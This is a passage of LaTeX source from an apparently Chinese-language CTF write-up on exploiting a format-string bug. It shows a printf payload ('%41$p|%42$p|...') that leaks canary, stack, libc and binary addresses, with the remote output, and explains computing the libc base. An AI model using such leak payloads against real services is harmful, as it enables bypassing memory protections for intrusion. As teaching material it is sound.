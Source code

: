 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\renewenvironment{quote}{%
  \begin{mdframed}[linewidth=0pt,innerleftmargin=0pt,innerrightmargin=0pt,
    innerbottommargin=0pt,innertopmargin=0pt,skipabove=0.55em,skipbelow=0.55em,
    leftmargin=0.9em,rightmargin=0.4em,startcode={\color{quotebar}\vrule width 2.6pt},%
    endcode={}]%
  \itshape\color{black}%
}{%
  \end{mdframed}%
}
\begin{document}
\begin{quote}
本題的 8 是 \textbf{glibc 2.39 的 printf} 行為。換 libc
版本時這個數字\textbf{可能不同}（例如有些題目是 6），所以永遠要實測。
\end{quote}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsubsection{5. 洩漏（leak）了什麼、怎麼換算 libc
base}\label{ux6d29ux6f0fleakux4e86ux4ec0ux9ebcux600eux9ebcux63dbux7b97-libc-base}

我們在\textbf{第 1 次迴圈}送出：

\begin{Shaded}
\begin{Highlighting}[]
\StringTok{b\textquotesingle{}\%41$p|\%42$p|\%43$p|\%47$p\textquotesingle{}}
\end{Highlighting}
\end{Shaded}

得到（遠端真實輸出）：

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
0x159dc03394a54300|0x7fffad6b7710|0x74c6d28001ca|0x5deeff4bb1c9
\end{Verbatim}
\end{document}
